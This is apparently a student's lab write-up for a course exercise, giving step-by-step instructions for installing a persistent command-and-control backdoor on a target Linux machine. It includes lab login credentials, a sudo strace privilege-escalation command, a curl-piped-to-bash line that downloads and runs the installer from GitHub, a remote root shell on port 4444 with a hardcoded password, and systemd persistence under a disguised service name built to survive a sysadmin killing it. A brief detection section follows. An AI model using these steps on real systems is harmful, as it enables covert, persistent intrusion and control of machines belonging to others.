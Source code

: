 Instructions
Logging into the week4 machine:
ssh into the week4 machine using this command:
	ssh user@10.0.2.5

The password for the machine is:
	hill

To escalate privileges use this command:
sudo strace -o /dev/null /bin/bash
 
then type ‘cd’ in order to change into the root directory
Installing and running the server script on the week4 machine:
Run the following command which will install the backdoor to the machine. Only 2 files will be installed: the script to run the server from GitHub directly, and the systemd service to ensure persistence (explained more in a further section).

curl -s https://raw.githubusercontent.com/athulnair02/command-and-control/main/install_backdoor | bash

Source Code
GitHub with all scripts
Installing and running the client script on your local machine:
In any spot on the attacking machine add the file:

client.py from the GitHub

Once you’ve done this, you can run the client script at any time using:
	python client.py
	
or
	
python3 client.py

How the backdoor works:
How our backdoor addresses the 5 requirements:
Explanation of how our backdoor provides remote shell access:
The backdoor is essentially a shell in which the target machine reveals port 4444/tcp in the firewall and listens for a connection from the network. The python script on the target side is waiting for a connection, and once accepted and authorized through a password, it receives commands from the attacking machine through TCP and executes them through a subprocess. The output from the command is sent back to the attacking machine through the established connection.
Persistence:
The backdoor maintains persistence using a systemd service that ensures it is always running on the machine. It is the service that initially starts the script to open the backdoor when it is first installed and every time the script ends (either successful, on error, etc.) it will be restarted with a different PID. This way, if there is any unforeseen error in the code, it will not prevent the backdoor from being closed. In addition, if a sysadmin kills the program when finding it suspicious (while looking at top or task manager), it will start again, opening the backdoor once again. Another persistence action taken was having a timeout for the initial backdoor connection. If the backdoor does not have a connection in two minutes, it throws an error and ends the program so that it restarts and ensures the firewall was not closed by the sysadmin. If the firewall is closed, then no connection can be made to the backdoor. This timeout can be changed since the code is directly run off of Github, meaning any push to the main branch will update the backdoor when it is run through the curl command piped into python command.
Configuration to get commands from: 
The only configuration needed is to determine the IP address of the target machine (through nmap or any other means) and change REMOTE_HOST in client.py to that address. It is default set to '10.0.2.5'.
Authentication:
We created a password ( c0d3m@nk3y ) and hashed it using hash(password) in python. This hash is then stored on the server/target machine. We then have client.py ask the user to input a password as the first message to the target and it is then sent to the server. There, the server hashes it and checks it against the known hash, which once confirmed, allows the user remote root shell access.
Hiding from detection: 
There are only 2 files added to the machine: one that is the backdoor, and the other to ensure it keeps running. Both files are using a less suspecting name (auto-update-checker) that creates the illusion of a routine, ordinary task for the sysadmin. The actual script that is run is in the root’s home directory as a hidden file (it can easily be placed elsewhere more secretive). There is no cronjob running so a sysadmin cannot find the script running there (where other common repeating programs may be). In addition, the service is buried deep with other services so it will be difficult for a sysadmin to search through all services to determine which one is malicious.
How our backdoor can be detected:
If the sysadmin checks the hidden files in the root home directory, they can find a presence of a file they did not put. If they look past the unsuspecting name and read the script that is running, they will find the backdoor. 
If the sysadmin looks at what ports are open on the firewall using firewall-cmd –list-ports, they will see that 4444/tcp is open and will know something odd is in place keeping the port open. If they use further investigation, they may find the program using the port if they install lsof and execute lsof -i:4444. 


